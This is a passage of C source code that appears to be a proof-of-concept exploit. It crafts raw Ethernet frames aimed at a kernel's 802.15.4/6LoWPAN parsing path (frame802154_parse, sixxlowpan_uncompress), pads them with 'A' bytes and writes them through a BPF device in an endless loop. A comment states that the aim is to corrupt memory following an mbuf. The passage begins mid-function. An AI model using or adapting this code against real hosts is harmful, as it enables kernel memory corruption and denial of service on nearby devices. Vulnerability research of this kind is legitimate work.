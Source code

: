 ```c

	struct frame_t frame;
	memcpy(frame.header.ether_dhost, dest_mac, ETHER_HDR_LEN);
	memcpy(frame.header.ether_shost, src_mac, ETHER_HDR_LEN);

	//  802.15.4 frame type. 
	frame.header.ether_type = 0x908;
	frame.len = (2*ETHER_ADDR_LEN) + ETHER_TYPE_LEN + data_length;

	// Length of frame - memcpy(&len, mtod(m, u_int8_t *), sizeof(u_int16_t)); len = ntohs(len);
	frame.payload[0] = 0xff;
	frame.payload[1] = 0xff;

	// This is the start of the "data" passed to frame802154_parse and considered frame header 
	// m_adj(m, sizeof(u_int16_t)); mtod(mc, uint8_t *)
	// These are used for the FCF (no flags set)
	frame.payload[2] = 0;
	frame.payload[3] = 0;
	frame.payload[4] = 0;

	// As none FCF are set p+=3 bytes. 
	// header length
	// c = p - data;
	// c = 3
	// payload length
	// pf->payload_len = (4 - 3);
	// pf->payload_len = 1

	// This is the start of our payload passed to sixxlowpan_uncompress
	frame.payload[5] = 0;
	frame.payload[6] = 2; // SICSLOWPAN_HC1_NH_UDP

	// Just pad the frame with 'A'. 
	for (int j = 7; j < 32; j++) {
		frame.payload[j] = 0x41;
    } 

    ssize_t bytes_sent;
    bytes_sent = write(bpf, &frame, frame.len);
    if(bytes_sent > 0) {
    	printf("Bytes sent: %ld\n", bytes_sent);
    } else {
    	perror("Error sending frame");
    	exit(1);
    }
}

int main(int argc, char *argv[])
{
	char* interface = "en0";

	int bpf;
	bpf = open_bpf_device();
	assoc_dev(bpf, interface);
		
	// Do this in a loop to ensure we corrupt data following mbuf. 
	while (1)
		write_single_frame(bpf);

	return 0; 
} 
```
